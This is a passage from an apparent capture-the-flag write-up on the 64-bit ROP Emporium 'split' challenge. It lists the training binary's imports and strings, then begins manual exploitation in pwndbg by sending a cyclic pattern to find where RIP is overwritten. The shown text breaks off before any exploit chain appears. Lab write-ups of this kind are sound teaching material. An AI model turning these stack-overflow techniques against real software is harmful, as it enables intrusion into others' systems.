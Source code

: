 ```
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   ---------- GLOBAL FUNC       __libc_start_main
7   ---------- WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf

[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

Great, a very similar attack surface, but now we will be dealing with registers.

### Reversing

There is really nothing to reverse here since we did all of the work above.

The target is the same binary, just compiled using 64-bit architecture.

### Manual Exploitation

Time to dive back into `pwndbg`!

**Generate a cyclic pattern of 100-bytes:**

```
cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

**Send the payload in and see where it crashes/begins overwriting `RIP`:**

```
r
<paste_here>
```
